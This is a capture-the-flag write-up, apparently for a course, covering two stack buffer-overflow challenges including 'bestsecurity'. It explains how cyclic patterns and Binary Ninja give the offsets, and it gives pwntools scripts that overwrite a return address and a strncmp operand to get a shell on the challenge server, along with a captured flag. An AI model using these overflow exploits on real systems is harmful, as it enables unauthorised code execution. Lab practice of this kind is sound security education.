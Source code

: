To determine what offset this value 0x61616173 is within our sequence, we use the command cyclic -l 0x61616173, which gives us 72. 

Hence, we need 72 bytes of anything followed by the address of the function we want to return to once the current function is complete (instead of simply returning back to main)

To determine the address of the 'win' function we want to jump to, I opened the binary in binary ninja, selected the 'win' function from the list of symbols, and then on the bottom right of the screen it gives the address of this function as 0x80484d6

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 2002)

# We simply send a byte string where the first 72 characters are anything, and then the address of the 'win' function that we want to return to
p.sendline(flat({
  72: p32(0x80484d6)
  }))

# we then have access to the shell
p.interactive()
```

bestsecurity
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1iZXN0c2VjdXJpdHkiLCJpcCI6IjEyMy4yNDMuNi4xMzYiLCJzZXNzaW9uIjoiODUyMTU2NGYtN2FiYy00MTdlLWEwOWQtOGYwOGQ1NjQwOTVkIn0.70GyCjfI-iA6eIaZ_AMTY7MoAF2Ao_Qu8FboEOiakhw}

General overview of problems faced
-------------------------------------
Since there is no source code, I first opened binary ninja to get a better understanding of what the program does. The main function simply calls the 'check_canary' function. In 'check_canary', two values are compared using strncmp, and if they are equal I get shell access.

The first value pushed to be compared is at address 0x804a00c, which we know holds the value "1234" from the binary ninja comment. The other value pushed is what is in register eax, which we can see from the binary ninja comment is at address 'var_9'. When binary ninja gives the label 'var_9', this means it is stored 9 bytes above (or before) the return address stored in the EIP register.

Hence, to overwrite the second value pushed to strncmp to be equal to "1234", we need to determine the offset of the return address from our buffer, and then relative to the return addresses position insert the string "1234" 9 bytes before.

To determine the offset the return address in EIP is from our buffer, we use cyclic 300 in pwndbg. Then, we input this sequence when gets asks for input. When we run the rest of the binary, it tries to return to an overwritten address and displays 'Invalid address 0x6b626161'. When doing cyclic -l 0x6b626161, we get the result 137, which tells us the return address has an offset of 137 bytes.

Hence, since the value we want to overwrite is 9 bytes above the return address, we can write 137 - 9 = 128 bytes of anything, followed by the string "1234" to match the other stored value.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 2003)

# The byte string we send as input to gets is 128 bytes of anything followed by the string 1234
p.sendline(flat({
  128: "1234"
  }))

# and once we have access to the shell, we can retrieve the flag in the terminal
p.interactive()
```
